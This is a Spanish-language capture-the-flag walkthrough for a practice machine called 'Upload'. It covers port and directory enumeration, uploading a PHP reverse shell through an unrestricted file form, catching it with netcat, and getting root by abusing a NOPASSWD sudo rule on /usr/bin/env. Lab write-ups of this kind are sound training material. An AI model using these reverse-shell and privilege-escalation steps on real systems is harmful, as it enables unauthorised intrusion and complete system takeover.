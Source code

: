 # Upload

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Parece por el título que sea un sistema para subir un archivo y vamos a enumerar la página, mientras vemos lo que contiene, dejamos haciendo fuzzing con gobuster.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
```

En la página encontramos un sistema de subir archivos que probaremos a subir un archivo con una reverse shell, para obtener acceso a la máquina.

Vamos a ver que hemos encontrado con gobuster y vemos que tenemos un directorio en http://172.17.0.2/uploads/ que tiene pinta que es donde se subirán los archivos.

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 1361]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 1361]
/server-status        (Status: 403) [Size: 275]
```
## Explotación.

Ahora para subir la reverse shell vamos a https://github.com/pentestmonkey/php-reverse-shell y utilizamos la reverse-shell.php que han creado ellos que funciona muy bien. Solo hay que copiar el código en un archivo php en nuestro ordenador y sustituir la ip y el puerto en el que vamos a estar en escucha.
```bash
$ip = '172.17.0.1';  // CHANGE THIS
$port = 4443;       // CHANGE THIS
```

Subimos el archivo que terminamos de crear con la reverse shell y vemos que acepta archivos php.

Si vamos al directorio http://172.17.0.2/uploads/ vemos que nuestro archivo está subido y solo tendremos que hacer click sobre él y estar a la espera en nuestro equipo con netcat en puerto que habíamos indicado en el script.

```bash
nc -lvnp 4443
```

Y obtendremos la reverse shell directamente como el usuario data.
```bash
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 59230
Linux ebd3a0fc70ea 6.5.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.6-1kali1 (2023-10-09) x86_64 x86_64 x86_64 GNU/Linux
 12:14:20 up 42 min,  0 users,  load average: 0.06, 0.11, 0.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$  
```
## Escalada de privilegios.

Ahora comprobamos empezamos la escalada de privilegios viendo si hay algún archivo con permisos sudo que podamos utilizar siendo el usuario www-data.

```bash
sudo -l
```

```bash
$ sudo -l
Matching Defaults entries for www-data on ebd3a0fc70ea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on ebd3a0fc70ea:
    (root) NOPASSWD: /usr/bin/env
$ 
```

Vemos que podemos utilizar el binario /usr/bin/env y para ello podemos ir a [GTFOBins](https://gtfobins.github.io/)y ver como explotar ese binario como muchos otros. En este caso simplemento tenemos que poner el siguiente comando.

```bash
sudo /usr/bin/env /bin/bash
```

Y con ello ya obtenemos una bash como root.
```bash
$ sudo /usr/bin/env /bin/bash
whoami
root
```

Para más comodidad podemos hacer un tratamiento de la tty.

```bash
script /dev/null -c bash
```

-- Hacemos Ctrl + Z --

```bash
stty -raw echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export SHELL=bash
```

```bash
root@ebd3a0fc70ea:/# whoami
whoami
root
root@ebd3a0fc70ea:/# 
```
